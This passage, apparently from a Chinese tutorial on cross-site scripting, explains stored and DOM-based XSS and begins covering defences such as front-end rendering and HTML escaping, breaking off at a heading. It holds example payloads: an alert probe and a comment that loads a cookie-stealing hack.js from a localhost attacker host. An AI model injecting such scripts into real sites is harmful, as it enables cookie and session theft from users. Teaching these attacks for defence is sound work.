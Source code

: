 ### 存储型 XSS - 存储到数据库后读取时攻击

实现攻击步骤：

1. alert尝试（看该网站是否有 XSS 漏洞）
2. 构造攻击脚本
3. 把攻击脚本注入网站数据库
4. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
5. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

**反射型 XSS 跟存储型 XSS 的区别是：**存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

例如：

```js

// 1. alert尝试
// 在有评论功能的网站发送如下评论，如果能弹出alert提示说明存在漏洞
<script>alert(1)</script>

// 2. 构造攻击脚本：hack.js实现获取Cookie
我来了<script src="http://localhost:4000/hack.js"></script>

// 3. 把攻击脚本注入网站数据库：通过发评论实现
// 4. 用户访问该网页
// 后续步骤...
```

### DOM 型 XSS

实现攻击步骤：

- 攻击者构造出特殊的 URL，其中包含恶意代码（恶意代码也可以存储在数据库或前端存储）。
- 用户打开带有恶意代码的 URL。
- 用户浏览器接收到响应后解析执行，**前端 JavaScript 取出 URL 中的恶意代码并执行**。
- 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

**DOM 型 XSS 跟前两种 XSS 的区别**：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。

## XSS攻击防范

### 预防存储型和反射型 XSS 攻击

存储型和反射型 XSS 都是在服务端取出恶意代码后，插入到响应 HTML 里的，攻击者刻意编写的“数据”被内嵌到“代码”中，被浏览器所执行。

预防这两种漏洞，有两种常见做法：

- 改成纯前端渲染，把代码和数据分隔开。
- 对 HTML 做充分转义。

#### 纯前端渲染

纯前端渲染的过程：
